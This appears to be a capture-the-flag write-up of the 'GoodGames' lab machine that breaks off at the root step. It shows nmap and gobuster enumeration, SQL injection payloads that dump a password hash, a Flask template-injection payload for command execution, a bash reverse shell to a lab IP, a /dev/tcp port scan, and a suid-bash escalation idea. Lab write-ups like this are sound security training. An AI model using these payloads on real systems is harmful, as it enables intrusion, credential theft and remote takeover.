










# GoodGames
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.130 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-21 19:43 BST
Nmap scan report for 10.10.11.130 (10.10.11.130)
Host is up (0.14s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.73 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://goodgames.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt --exclude-length 9265
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://goodgames.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          9265
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/08/21 19:51:04 Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 200) [Size: 44212]
/login                (Status: 200) [Size: 9294]
/profile              (Status: 200) [Size: 9267]
/signup               (Status: 200) [Size: 33387]
/logout               (Status: 302) [Size: 208] [--> http://goodgames.htb/]
/forgot-password      (Status: 200) [Size: 32744]

```
- No `vhosts` were found by `ffuf`

- Web server


## Foothold
- Let's register a user




- Trying `SQLI` on request




- If we click gear icon in admin's profile page we are redirected to `http://internal-administration.goodgames.htb/`




- Let's dump the data from database using `SQLI`, maybe we get lucky and get password
  - `email=' union select 1,2,3,database()-- -&password=test` - Current database
  - `email=' union select 1,2,3,concat(schema_name,':') from information_schema.schemata-- -&password=test` - List databases
  - `email=' union select 1,2,3,concat(table_name,':') from information_schema.tables where table_schema='main'-- -&password=test` - List tables in `main` database
  - `email=' union select 1,2,3,concat(column_name,':') from information_schema.columns where table_name='user'-- -&password=test` - List columns names in `user` table
  - `email=' union select 1,2,3,concat(id,':',name,':',password) from user-- -&password=test` - Dump `user` table
    - `admin:2b22337f218b2d82dfc3b6f77e7cb8ec`



- Let's crack it
  - `admin:superadministrator`



- Creds work for `http://internal-administration.goodgames.htb/`



- We can change username
  - Since it's a `flask` application, it could be vulnerable to `SSTI`




- Let's try `id` command to test for `rce`
  - `{{ namespace.__init__.__globals__.os.popen('id').read() }}`



- Let's get `reverse shell`
  - `{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.5/6666 0>&1"').read() }}`
  - It looks like a container



- We can upgrade the shell via:
  - `script /dev/null -c bash`
  - `python3 -c 'import pty;pty.spawn("/bin/bash");'`
## User
- Enumerate the container
```
root@3a453ab39d3d:/home/augustus# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

- I found flag in `augustus` home directory, yet there is no such user in container
```
root@3a453ab39d3d:/home/augustus# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```
- It could be that the directory is mounted
```
root@3a453ab39d3d:/home/augustus# mount
...
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
...
```
- We can try to guess and ping `172.19.0.1` to see if it's reachable
  - or `for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done;`

```
root@3a453ab39d3d:/home/augustus# for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done;
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.111 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.044 ms
```
- Now let's port scan
  - `for i in {1..65535}; do echo > /dev/tcp/172.19.0.1/$i && echo "$i open"; done 2>/dev/null`
```
root@3a453ab39d3d:/home/augustus# for i in {1..65535}; do echo > /dev/tcp/172.19.0.1/$i && echo "$i open"; done 2>/dev/null
22 open
80 open
```

## Root
- During the enumeration I found nothing except the fact that I can create files in `augustus` directory from both container and host
  - Moreover the permissions are set `root` when files are created from container
  - So we can copy `bash` binary and try to set `suid` bit from container


